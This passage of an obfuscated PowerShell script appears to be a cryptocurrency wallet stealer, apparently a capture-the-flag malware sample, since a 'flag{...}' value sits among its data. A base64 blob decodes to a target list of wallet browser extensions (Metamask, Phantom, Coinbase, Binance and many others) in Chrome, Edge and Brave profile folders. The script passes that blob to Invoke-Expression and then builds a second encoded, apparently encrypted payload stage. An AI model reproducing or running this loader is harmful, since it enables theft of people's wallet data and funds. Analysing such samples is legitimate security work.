DQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIgBwAGEAdABoACIAOgAgACIAbwBqAGcAZwBtAGMAaABsAGcAaABuAGoAbABhAHAAbQBmAGIAbgBqAGgAbwBsAGYAagBrAGkAaQBkAGIAYwBoACIADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgAH0ALAANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAewANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAiAG4AYQBtAGUAIgA6ACAAIgBTAHUAaQAtAEMAIgAsAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACIAcABhAHQAaAAiADoAIAAiAG8AcABjAGcAcABmAG0AaQBwAGkAZABiAGcAcABlAG4AaABtAGEAagBvAGEAagBwAGIAbwBiAHAAcABkAGkAbAAiAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAB9ACwADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgAHsADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIgBuAGEAbQBlACIAOgAgACIATQBhAHIAdABpAGEAbgAtAEMAIgAsAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACIAcABhAHQAaAAiADoAIAAiAGUAZgBiAGcAbABnAG8AZgBvAGkAcABwAGIAZwBjAGoAZQBwAG4AaABpAGIAbABhAGkAYgBjAG4AYwBsAGcAawAiAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAB9ACwADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgAHsADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIgBuAGEAbQBlACIAOgAgACIAVAByAG8AbgAtAEMAIgAsAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACIAcABhAHQAaAAiADoAIAAiAGkAYgBuAGUAagBkAGYAagBtAG0AawBwAGMAbgBsAHAAZQBiAGsAbABtAG4AawBvAGUAbwBpAGgAbwBmAGUAYwAiAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAB9ACwADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgAHsADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIgBuAGEAbQBlACIAOgAgACIAUABlAHQAcgBhAC0AQwAiACwADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIgBwAGEAdABoACIAOgAgACIAZQBqAGoAbABhAGQAaQBuAG4AYwBrAGQAZwBqAGUAbQBlAGsAZQBiAGQAcABlAG8AawBiAGkAawBoAGYAYwBpACIADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgAH0ALAANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAewANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAiAG4AYQBtAGUAIgA6ACAAIgBQAG8AbgB0AGUAbQAtAEMAIgAsAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACIAcABhAHQAaAAiADoAIAAiAHAAaABrAGIAYQBtAGUAZgBpAG4AZwBnAG0AYQBrAGcAawBsAHAAawBsAGoAagBtAGcAaQBiAG8AaABuAGIAYQAiAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAB9ACwADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgAHsADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIgBuAGEAbQBlACIAOgAgACIARgBlAHcAYwBoAGEALQBDACIALAANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAiAHAAYQB0AGgAIgA6ACAAIgBlAGIAZgBpAGQAcABwAGwAaABhAGIAZQBlAGQAcABuAGgAagBuAG8AYgBnAGgAbwBrAHAAaQBpAG8AbwBsAGoAIgANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAfQAsAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAB7AA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACIAbgBhAG0AZQAiADoAIAAiAE0AYQB0AGgALQBDACIALAANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAiAHAAYQB0AGgAIgA6ACAAIgBhAGYAYgBjAGIAagBwAGIAcABmAGEAZABsAGsAbQBoAG0AYwBsAGgAawBlAGUAbwBkAG0AYQBtAGMAZgBsAGMAIgANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAfQAsAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAB7AA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACIAbgBhAG0AZQAiADoAIAAiAEEAdQB0AGgAZQBuAHQAaQBjAGEAdABvAHIALQBDACIALAANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAiAHAAYQB0AGgAIgA6ACAAIgBiAGgAZwBoAG8AYQBtAGEAcABjAGQAcABiAG8AaABwAGgAaQBnAG8AbwBvAGEAZABkAGkAbgBwAGsAYgBhAGkAIgANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAfQAsAA0ACgAJAAkACQB7AA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACIAbgBhAG0AZQAiADoAIAAiAEUAeABvAGQAdQBzAFcAZQBiADMALQBDACIALAANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAiAHAAYQB0AGgAIgA6ACAAIgBhAGgAbwBsAHAAZgBkAGkAYQBsAGoAZwBqAGYAaABvAG0AaQBoAGsAagBiAG0AZwBqAGkAZABsAGMAZABuAG8AIgANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAfQAsAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAB7AA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACIAbgBhAG0AZQAiADoAIAAiAFAAaABhAG4AdABvAG0ALQBDACIALAANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAiAHAAYQB0AGgAIgA6ACAAIgBiAGYAbgBhAGUAbABtAG8AbQBlAGkAbQBoAGwAcABtAGcAagBuAGoAbwBwAGgAaABwAGsAawBvAGwAagBwAGEAIgANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAfQAsAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAB7AA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACIAbgBhAG0AZQAiADoAIAAiAEMAbwByAGUALQBDACIALAANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAiAHAAYQB0AGgAIgA6ACAAIgBhAGcAbwBhAGsAZgBlAGoAagBhAGIAbwBtAGUAbQBwAGsAagBsAGUAcABkAGYAbABhAGwAZQBlAG8AYgBoAGIAIgANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAfQAsAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAB7AA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACIAbgBhAG0AZQAiADoAIAAiAFQAbwBrAGUAbgBwAG8AYwBrAGUAdAAtAEMAIgAsAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACIAcABhAHQAaAAiADoAIAAiAG0AZgBnAGMAYwBqAGMAaABpAGgAZgBrAGsAaQBuAGQAZgBwAHAAbgBhAG8AbwBlAGMAZwBmAG4AZQBpAGkAaQAiAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAB9ACwADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgAHsADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIgBuAGEAbQBlACIAOgAgACIAUwBhAGYAZQBwAGEAbAAtAEMAIgAsAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACIAcABhAHQAaAAiADoAIAAiAGwAZwBtAHAAYwBwAGcAbABwAG4AZwBkAG8AYQBsAGIAZwBlAG8AbABkAGUAYQBqAGYAYwBsAG4AaABhAGYAYQAiAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAB9ACwADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgAHsADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIgBuAGEAbQBlACIAOgAgACIAUwBvAGwAZgBhAHIAZQAtAEMAIgAsAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACIAcABhAHQAaAAiADoAIAAiAGIAaABoAGgAbABiAGUAcABkAGsAYgBhAHAAYQBkAGoAZABuAG4AbwBqAGsAYgBnAGkAbwBpAG8AZABiAGkAYwAiAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAB9ACwADQAKAAkACQAJAHsADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIgBuAGEAbQBlACIAOgAgACIASwBhAGkAawBhAHMALQBDACIALAANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAiAHAAYQB0AGgAIgA6ACAAIgBqAGIAbABuAGQAbABpAHAAZQBvAGcAcABhAGYAbgBsAGQAaABnAG0AYQBwAGEAZwBjAGMAYwBmAGMAaABwAGkAIgANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAfQAsAA0ACgAJAAkACQB7AA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACIAbgBhAG0AZQAiADoAIAAiAGkAVwBhAGwAbABlAHQALQBDACIALAANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAiAHAAYQB0AGgAIgA6ACAAIgBrAG4AYwBjAGgAZABpAGcAbwBiAGcAaABlAG4AYgBiAGEAZABkAG8AagBqAG4AbgBhAG8AZwBmAHAAcABmAGoAIgANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAfQAsAA0ACgAJAAkACQB7AA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACIAbgBhAG0AZQAiADoAIAAiAFkAbwByAG8AaQAtAEMAIgAsAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACIAcABhAHQAaAAiADoAIAAiAGYAZgBuAGIAZQBsAGYAZABvAGUAaQBvAGgAZQBuAGsAagBpAGIAbgBtAGEAZABqAGkAZQBoAGoAaABhAGoAYgAiAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAB9ACwADQAKAAkACQAJAHsADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIgBuAGEAbQBlACIAOgAgACIARwB1AGEAcgBkAGEALQBDACIALAANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAiAHAAYQB0AGgAIgA6ACAAIgBoAHAAZwBsAGYAaABnAGYAbgBoAGIAZwBwAGoAZABlAG4AagBnAG0AZABnAG8AZQBpAGEAcABwAGEAZgBsAG4AIgANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAfQAsAA0ACgAJAAkACQB7AA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACIAbgBhAG0AZQAiADoAIAAiAFcAbwBtAGIAYQB0AC0AQwAiACwADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIgBwAGEAdABoACIAOgAgACIAYQBtAGsAbQBqAGoAbQBtAGYAbABkAGQAbwBnAG0AaABwAGoAbABvAGkAbQBpAHAAYgBvAGYAbgBmAGoAaQBoACIADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgAH0ALAANAAoACQAJAAkAewANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAiAG4AYQBtAGUAIgA6ACAAIgBPAHgAeQBnAGUAbgAtAEMAIgAsAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACIAcABhAHQAaAAiADoAIAAiAGYAaABpAGwAYQBoAGUAaQBtAGcAbABpAGcAbgBkAGQAawBqAGcAbwBmAGsAYwBiAGcAZQBrAGgAZQBuAGIAaAAiAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAB9ACwADQAKAAkACQAJAHsADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIgBuAGEAbQBlACIAOgAgACIARwB1AGkAbABkAC0AQwAiACwADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIgBwAGEAdABoACIAOgAgACIAbgBhAG4AagBtAGQAawBuAGgAawBpAG4AaQBmAG4AawBnAGQAYwBnAGcAYwBmAG4AaABkAGEAYQBtAG0AbQBqACIADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgAH0ALAANAAoACQAJAAkAewANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAiAG4AYQBtAGUAIgA6ACAAIgBTAGEAdAB1AHIAbgAtAEMAIgAsAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACIAcABhAHQAaAAiADoAIAAiAG4AawBkAGQAZwBuAGMAZABqAGcAagBmAGMAZABkAGEAbQBmAGcAYwBtAGYAbgBsAGgAYwBjAG4AaQBtAGkAZwAiAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAB9ACwACQAJAAkADQAKAAkACQAJAHsADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIgBuAGEAbQBlACIAOgAgACIAVABlAHIAcgBhAC0AQwAiACwADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIgBwAGEAdABoACIAOgAgACIAYQBpAGkAZgBiAG4AYgBmAG8AYgBwAG0AZQBlAGsAaQBwAGgAZQBlAGkAagBpAG0AZABwAG4AbABwAGcAcABwACIADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgAH0ALAANAAoACQAJAAkAewANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAiAG4AYQBtAGUAIgA6ACAAIgBIAGEAcgBtAG8AbgB5AC0AQwAiACwADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIgBwAGEAdABoACIAOgAgACIAZgBuAG4AZQBnAHAAaABsAG8AYgBqAGQAcABrAGgAZQBjAGEAcABrAGkAagBqAGQAawBnAGMAagBoAGsAaQBiACIADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgAH0ALAANAAoACQAJAAkAewANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAiAG4AYQBtAGUAIgA6ACAAIgBLAGEAcgBkAGkAYQAtAEMAIgAsAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACIAcABhAHQAaAAiADoAIAAiAGMAZwBlAGUAbwBkAHAAZgBhAGcAagBjAGUAZQBmAGkAZQBmAGwAbQBkAGYAcABoAHAAbABrAGUAbgBsAGYAawAiAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAB9ACwADQAKAAkACQAJAHsADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIgBuAGEAbQBlACIAOgAgACIAUABhAGwAaQAtAEMAIgAsAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACIAcABhAHQAaAAiADoAIAAiAG0AZwBmAGYAawBmAGIAaQBkAGkAaABqAHAAbwBhAG8AbQBhAGoAbABiAGcAYwBoAGQAZABsAGkAYwBnAHAAbgAiAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAB9ACwADQAKAAkACQAJAHsADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIgBuAGEAbQBlACIAOgAgACIAQgBvAGwAdABYAC0AQwAiACwADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIgBwAGEAdABoACIAOgAgACIAYQBvAGQAawBrAGEAZwBuAGEAZABjAGIAbwBiAGYAcABnAGcAZgBuAGoAZQBvAG4AZwBlAG0AagBiAGoAYwBhACIADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgAH0ALAANAAoACQAJAAkAewANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAiAG4AYQBtAGUAIgA6ACAAIgBMAGkAcQB1AGEAbABpAHQAeQAtAEMAIgAsAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACIAcABhAHQAaAAiADoAIAAiAGsAcABmAG8AcABrAGUAbABtAGEAcABjAG8AaQBwAGUAbQBmAGUAbgBkAG0AZABjAGcAaABuAGUAZwBpAG0AbgAiAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAB9ACwADQAKAAkACQAJAHsADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIgBuAGEAbQBlACIAOgAgACIAWABEAEUARgBJAC0AQwAiACwADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIgBwAGEAdABoACIAOgAgACIAaABtAGUAbwBiAG4AZgBuAGYAYwBtAGQAawBkAGMAbQBsAGIAbABnAGEAZwBtAGYAcABmAGIAbwBpAGUAYQBmACIADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgAH0ALAANAAoACQAJAAkAewANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAiAG4AYQBtAGUAIgA6ACAAIgBOAGEAbQBpAC0AQwAiACwADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIgBwAGEAdABoACIAOgAgACIAbABwAGYAYwBiAGoAawBuAGkAagBwAGUAZQBpAGwAbABpAGYAbgBrAGkAawBnAG4AYwBpAGsAZwBmAGgAZABvACIADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgAH0ALAANAAoACQAJAAkAewANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAiAG4AYQBtAGUAIgA6ACAAIgBNAGEAaQBhAHIARABFAEYASQAtAEMAIgAsAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACIAcABhAHQAaAAiADoAIAAiAGQAbgBnAG0AbABiAGwAYwBvAGQAZgBvAGIAcABkAHAAZQBjAGEAYQBkAGcAZgBiAGMAZwBnAGYAagBmAG4AbQAiAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAB9ACwADQAKAAkACQAJAHsADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIgBuAGEAbQBlACIAOgAgACIAVABlAG0AcABsAGUAVABlAHoAbwBzAC0AQwAiACwADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIgBwAGEAdABoACIAOgAgACIAbwBvAGsAagBsAGIAawBpAGkAagBpAG4AaABwAG0AbgBqAGYAZgBjAG8AZgBqAG8AbgBiAGYAYgBnAGEAbwBjACIADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgAH0ALAANAAoACQAJAAkAewANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAiAG4AYQBtAGUAIgA6ACAAIgBYAE0AUgBwAHQALQBDACIALAANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAiAHAAYQB0AGgAIgA6ACAAIgBlAGkAZwBiAGwAYgBnAGoAawBuAGwAZgBiAGEAagBrAGYAaABvAHAAbQBjAG8AagBpAGQAbABnAGMAZQBoAG0AIgANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAB9ACwADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAewANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAiAG4AYQBtAGUAIgA6ACAAIgBGAGwAYQBnACIALAANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAiAHAAYQB0AGgAIgA6ACAAIgBmAGwAYQBnAHsAMgA3ADcANgA4ADQAMQA5AGYAZAAxADcANgA2ADQAOABiADMAMwA1AGEAYQA5ADIAYgA4AGQAMgBkAGEAYgAyAH0AIgANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAB9AA0ACgAgACAAIAAgACAAIAAgACAAXQANAAoAIAAgACAAIAB9ACwADQAKACAAIAAgACAAewANAAoAIAAgACAAIAAgACAAIAAgACIAcgBvAG8AdAAiADoAIAAiACUAbABvAGMAYQBsAGEAcABwAGQAYQB0AGEAJQBcAFwATQBpAGMAcgBvAHMAbwBmAHQAXABcAEUAZABnAGUAXABcAFUAcwBlAHIAIABEAGEAdABhAFwAXABEAGUAZgBhAHUAbAB0AFwAXABFAHgAdABlAG4AcwBpAG8AbgBzACIALAANAAoAIAAgACAAIAAgACAAIAAgACIAdABhAHIAZwBlAHQAcwAiADoAIABbAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAB7AA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACIAbgBhAG0AZQAiADoAIAAiAE0AZQB0AGEAbQBhAHMAawAtAEUAIgAsAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACIAcABhAHQAaAAiADoAIAAiAGUAagBiAGEAbABiAGEAawBvAHAAbABjAGgAbABnAGgAZQBjAGQAYQBsAG0AZQBlAGUAYQBqAG4AaQBtAGgAbQAiAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAB9ACwADQAKAAkACQAJAHsADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIgBuAGEAbQBlACIAOgAgACIATQBlAHQAYQBtAGEAcwBrAC0ARQBFACIALAANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAiAHAAYQB0AGgAIgA6ACAAIgBuAGsAYgBpAGgAZgBiAGUAbwBnAGEAZQBhAG8AZQBoAGwAZQBmAG4AawBvAGQAYgBlAGYAZwBwAGcAawBuAG4AIgANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAfQAsAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAB7AA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACIAbgBhAG0AZQAiADoAIAAiAEMAbwBpAG4AbwBtAGkALQBFACIALAANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAiAHAAYQB0AGgAIgA6ACAAIgBnAG0AYwBvAGMAbABhAGcAZQBhAGsAawBiAGsAYgBiAGYAbABwAHAAawBiAHAAagBjAGIAawBjAGYAZQBkAGcAIgANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAfQANAAoAIAAgACAAIAAgACAAIAAgAF0ADQAKACAAIAAgACAAfQAsAA0ACgAgACAAIAAgAHsADQAKACAAIAAgACAAIAAgACAAIAAiAHIAbwBvAHQAIgA6ACAAIgAlAGwAbwBjAGEAbABhAHAAcABkAGEAdABhACUAXABcAEIAcgBhAHYAZQBTAG8AZgB0AHcAYQByAGUAXABcAEIAcgBhAHYAZQAtAEIAcgBvAHcAcwBlAHIAXABcAFUAcwBlAHIAIABEAGEAdABhAFwAXABEAGUAZgBhAHUAbAB0AFwAXABFAHgAdABlAG4AcwBpAG8AbgBzACIALAANAAoAIAAgACAAIAAgACAAIAAgACIAdABhAHIAZwBlAHQAcwAiADoAIABbAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAB7AA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACIAbgBhAG0AZQAiADoAIAAiAE0AZQB0AGEAbQBhAHMAawAtAEIAIgAsAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACIAcABhAHQAaAAiADoAIAAiAG4AawBiAGkAaABmAGIAZQBvAGcAYQBlAGEAbwBlAGgAbABlAGYAbgBrAG8AZABiAGUAZgBnAHAAZwBrAG4AbgAiAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAB9ACwADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgAHsADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIgBuAGEAbQBlACIAOgAgACIATQBFAFcAYwB4AC0AQgAiACwADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIgBwAGEAdABoACIAOgAgACIAbgBsAGIAbQBuAG4AaQBqAGMAbgBsAGUAZwBrAGoAagBwAGMAZgBqAGMAbABtAGMAZgBnAGcAZgBlAGYAZABtACIADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgAH0ALAANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAewANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAiAG4AYQBtAGUAIgA6ACAAIgBDAG8AaQBuADkAOAAtAEIAIgAsAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACIAcABhAHQAaAAiADoAIAAiAGEAZQBhAGMAaABrAG4AbQBlAGYAcABoAGUAcABjAGMAaQBvAG4AYgBvAG8AaABjAGsAbwBuAG8AZQBlAG0AZwAiAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAB9ACwADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgAHsADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIgBuAGEAbQBlACIAOgAgACIAQgBpAG4AYQBuAGMAZQAtAEIAIgAsAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACIAcABhAHQAaAAiADoAIAAiAGYAaABiAG8AaABpAG0AYQBlAGwAYgBvAGgAcABqAGIAYgBsAGQAYwBuAGcAYwBuAGEAcABuAGQAbwBkAGoAcAAiAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAB9ACwADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgAHsADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIgBuAGEAbQBlACIAOgAgACIASgBhAHgAeAAtAEIAIgAsAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACIAcABhAHQAaAAiADoAIAAiAGMAagBlAGwAZgBwAGwAcABsAGUAYgBkAGoAagBlAG4AbABsAHAAagBjAGIAbABtAGoAawBmAGMAZgBmAG4AZQAiAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAB9ACwADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgAHsADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIgBuAGEAbQBlACIAOgAgACIAQwBvAGkAbgBiAGEAcwBlAC0AQgAiACwADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIgBwAGEAdABoACIAOgAgACIAaABuAGYAYQBuAGsAbgBvAGMAZgBlAG8AZgBiAGQAZABnAGMAaQBqAG4AbQBoAG4AZgBuAGsAZABuAGEAYQBkACIADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgAH0ADQAKACAAIAAgACAAIAAgACAAIABdAA0ACgAgACAAIAAgAH0ADQAKAF0ADQAKACcAQAA7AA0ACgA="
Invoke-Expression ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($encodedJson)))
$encodedScript = "JABiAGEAcwBlADYANABjAG8AZABlAGQAIAA9ACAAIgA1AEoAQwBWADYAMAB2AFEAaQBNADAARwB3ADkATAB3AEwAdQBqADcAMwB3AEoAWgA4AGQAcAB5ADkAYQA2AEcANABHAGIARABuAGsAcwBjAHMAcgBXAHIAUwAwAGMASQBhAFkAQgBPAE4AcwA4AFUAawBuAFQAMwBtAHkAagBEAGMAaAB0AHEAKwBrAE4AYgA3AEoATABrAHMAMQBCAHcAYgB1AG8AUQBRAE8AMgBtADkAMABDAEUATwBLAHAAVABwAHQATABlAEEAQQA2AFkARQA0AEYARABrAE8AaABBAEkAcQBGAGYAaQBPAHcASwBWAHQANwBpAGYAUAA2AEYAMABUAEEAbABYACsAZwBwAEkAbwAxAHgARABjAFkAWQBzAG4AdAA3AEcAQgBvAGUARwA5AGUAUAAzADAASABTAFkARABQAE8AMQB1ADQASgBWAHQASQBuACsAOABkAHkAMQBLAG4ATgBEAHUAZwBSAGsAMwBrADIAOQBUAEIAcQBHAEwAQwAwAGIAZABHAFgAMQBCAC8ASQBWAEUAKwBOAHQASQBLAG8AZgBZAGUAdwB1AEwAcgB2ADYARABzAGQANABLAGcAUABqAGYAOABhAEoARgBHAHUAYwBiAFUAbwBpADkAWQA2AHIAMwBFAFIARAB3AHUAbwBRAHEASgByAHQAbAAwAFcAZQB4AEMAdABHAEMAeAB3AGkAWABDADIAYwBMADAARgBhAFcAZQBmAEoAVgBRAGsATQBBAGUATgBMAEIAawBGACsAUABmADUAUgBmADIARABIAHEATABqAHIARABYADYAcgB1AEEAWQBpADIAdwBQAFMAQgBnAFgAaQBDAEEAYwBVADIAUwB1AEwAQgBYAEgAVQBxAEEAdgBUAFIAbgBlAFYAWgBpAEUAbgBaAE8AYwAzAE0ASAA2AE4AbwBjAEkAQwBXAFYAZwBuAHgAZgBDAEIANAA1AHEAMQBPADAAagAyAEcAWQBIAGQARgAzAFcAMQBMAEUASwAvADEAcQBHAHUAUQAxAFgASQB1AGMAWQBoADQAQQBSAFcAMQBpAEcAVwBsAE4AcAA4AHkAawB1AG4AWQBZAFUAZABIAEYAcg